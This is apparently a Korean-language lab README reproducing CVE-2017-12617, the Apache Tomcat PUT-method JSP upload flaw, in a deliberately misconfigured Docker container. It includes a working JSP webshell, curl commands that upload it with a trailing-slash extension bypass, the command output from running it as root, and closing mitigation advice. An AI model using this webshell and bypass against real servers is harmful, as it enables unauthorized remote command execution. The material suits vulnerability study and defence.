




# CVE-2017-12617 — Apache Tomcat PUT 메서드 JSP 업로드 RCE

## 1. 취약점 요약

Apache Tomcat의 DefaultServlet(또는 WebDAV servlet)에서 `readonly` 초기화 파라미터가 `false`로 설정된 경우, 인증 없이 HTTP PUT 요청으로 임의 파일을 서버에 업로드할 수 있다. 정상적으로는 `.jsp` 확장자를 가진 파일 업로드가 필터에 의해 차단되지만, 업로드 경로 끝에 `/`를 추가하면(`shell.jsp/`) 확장자 검사 로직을 우회할 수 있다. 파일이 저장되는 시점에 트레일링 슬래시가 제거되어 실제로는 `shell.jsp`로 저장되며, 이후 해당 경로를 GET 요청하면 업로드된 JSP 코드가 서버 권한으로 실행된다.

- CVE ID: CVE-2017-12617
- CWE: CWE-434 (Unrestricted Upload of File with Dangerous Type)
- 영향받는 버전: Tomcat 7.0.0–7.0.81, 8.0.0.RC1–8.0.46, 8.5.0–8.5.22, 9.0.0.M1–9.0.0
- 인증 요구: 불필요 (unauthenticated)
- 원격 공격 가능 여부: 가능 (AV:N)

## 2. 환경 구성

### 구조

```
CVE-2017-12617/
├── Dockerfile
├── docker-compose.yml
├── README.md
└── shell.jsp
```

### 파일 설명

- `Dockerfile`: Eclipse Temurin JDK 8(`eclipse-temurin:8-jdk`) 베이스 이미지에서 Apache 공식 아카이브(`archive.apache.org`)의 Tomcat 7.0.81 소스 tarball을 직접 받아 빌드하고, `conf/web.xml`의 DefaultServlet 블록에 `readonly=false` init-param을 주입한다. 외부 사전빌드 이미지에 의존하지 않는다.
- `docker-compose.yml`: 단일 서비스(`tomcat-cve-2017-12617`)로 8080 포트를 노출한다.
- `shell.jsp`: 업로드할 JSP 웹셸. `cmd` 파라미터로 전달된 명령어를 서버에서 실행한다.

### 실행 명령

```bash
cd CVE-2017-12617
docker compose up -d --build
```

빌드 및 기동 완료까지 약 30초~1분 소요된다. 아래 명령으로 정상 기동을 확인한다.

```bash
docker compose logs -f tomcat-cve-2017-12617
```

로그에 `Server startup in [...] milliseconds`가 출력되면 준비 완료다.

```bash
curl -s -o /dev/null -w "%{http_code}\n" http://localhost:8080/
```

`200`이 출력되면 정상 응답이다.

## 3. 취약 조건

| 조건 | 값 |
|---|---|
| Tomcat 버전 | 7.0.0 – 7.0.81 (본 환경: 7.0.81) |
| DefaultServlet `readonly` | `false` (기본값은 `true`이며, 본 환경은 Dockerfile 빌드 시점에 명시적으로 오버라이드) |
| 인증 | 불필요 |
| 네트워크 | 대상 Tomcat의 HTTP 커넥터(8080)에 접근 가능하면 충분 |
| OS | 전 OS 대상 (CVE-2017-12615과 달리 Windows 한정 아님) |

`readonly=false`는 Tomcat 기본 설정이 아니며, WebDAV 서블릿을 활성화하거나 DefaultServlet을 직접 재설정한 환경에서만 발생한다. 이 비표준 설정이 존재해야 한다는 점이 CVSS의 Attack Complexity를 High로 끌어올리는 근거가 된다.

## 4. 재현 절차

1. `docker compose up -d --build`로 환경 기동
2. OPTIONS 요청으로 PUT 메서드 허용 여부 확인
3. 경로 끝에 `/`를 붙인 PUT 요청으로 `shell.jsp` 업로드
4. 업로드된 JSP를 GET 요청으로 실행, `cmd` 파라미터로 임의 명령 실행 확인

## 5. PoC 코드

`shell.jsp`:

```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
        BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = br.readLine()) != null) {
            out.println(line);
        }
    }
%>
```

### 재현 명령어 (복붙용)

```bash
# 1. PUT 허용 여부 확인
curl -i -X OPTIONS http://localhost:8080/

# 2. 웹셸 업로드 (경로 끝 '/' 로 확장자 필터 우회)
curl -i -X PUT "http://localhost:8080/shell.jsp/" --data-binary @shell.jsp

# 3. 웹셸 실행 (id)
curl "http://localhost:8080/shell.jsp?cmd=id"

# 4. 다른 명령어들 (whoami, hostname, pwd)
curl "http://localhost:8080/shell.jsp?cmd=whoami"
curl "http://localhost:8080/shell.jsp?cmd=hostname"
curl "http://localhost:8080/shell.jsp?cmd=pwd"
```

## 6. 실행 결과

**1단계 — PUT 허용 여부 확인 (OPTIONS)**

기대 결과: `curl -i -X OPTIONS http://localhost:8080/` 실행 시 HTTP 200 OK 응답.

```bash
curl -i -X OPTIONS http://localhost:8080/
```



**2단계 — 웹셸 업로드 (경로 끝 '/' 로 JSP 확장자 필터 우회)**

기대 결과: HTTP 상태 코드 `201 Created`. 경로 끝에 슬래시를 붙임으로써 Tomcat의 확장자 검사를 우회한다. 파일이 저장될 때 트레일링 슬래시가 제거되어 실제로는 `shell.jsp`로 저장된다.

```bash
curl -i -X PUT "http://localhost:8080/shell.jsp/" --data-binary @shell.jsp
```

응답:
```
HTTP/1.1 201 Created
```



**3단계 — 웹셸 실행 (RCE 증명)**

기대 결과: Tomcat 프로세스 권한으로 `id` 명령 결과가 출력된다. 컨테이너 내 Tomcat이 root로 구동되므로 결과는 `uid=0(root) gid=0(root) groups=0(root)` 형태로 나타난다.

```bash
curl "http://localhost:8080/shell.jsp?cmd=id"
```

출력:
```
uid=0(root) gid=0(root) groups=0(root)
```



**4단계 — 추가 명령 실행 (whoami, hostname, pwd)**

웹셸이 정상 작동하는지 다른 명령어로도 확인. 임의의 시스템 명령어를 원격에서 실행할 수 있음을 보여준다.

```bash
curl "http://localhost:8080/shell.jsp?cmd=whoami"
# 출력: root

curl "http://localhost:8080/shell.jsp?cmd=hostname"
# 출력: [컨테이너 ID]

curl "http://localhost:8080/shell.jsp?cmd=pwd"
# 출력: [서버의 현재 디렉토리]
```



## 7. 대응 방안

- **패치 적용**: Tomcat 7.0.82, 8.0.47, 8.5.23, 9.0.1 이상으로 업그레이드. Apache는 이후 버전에서 경로 정규화(path normalization) 로직을 개선하고, 확장자 검사 시점을 앞당겼다.

- **설정 원복**: DefaultServlet/WebDAV servlet의 `readonly`를 기본값인 `true`로 유지. PUT/DELETE가 실제로 필요한 경우, 별도 인증이 적용된 서블릿/경로로 분리해 최소 범위에만 허용한다.

- **WAF/리버스 프록시 룰**: 외부에서 들어오는 PUT/DELETE 메서드 자체를 차단하거나, URI 끝에 `/`가 붙은 상태로 `.jsp`, `.jspx` 등 실행 가능한 확장자를 포함한 PUT 요청 패턴을 탐지·차단한다.

- **권한 최소화**: Tomcat 프로세스를 root가 아닌 전용 서비스 계정으로 구동해, 업로드 취약점이 실제 RCE로 이어지더라도 파급 범위를 제한한다.

- **네트워크 분리**: 관리 목적의 PUT/WebDAV 기능이 필요한 구간은 내부망/VPN 등으로 접근을 제한하고 외부 직접 노출을 지양한다.

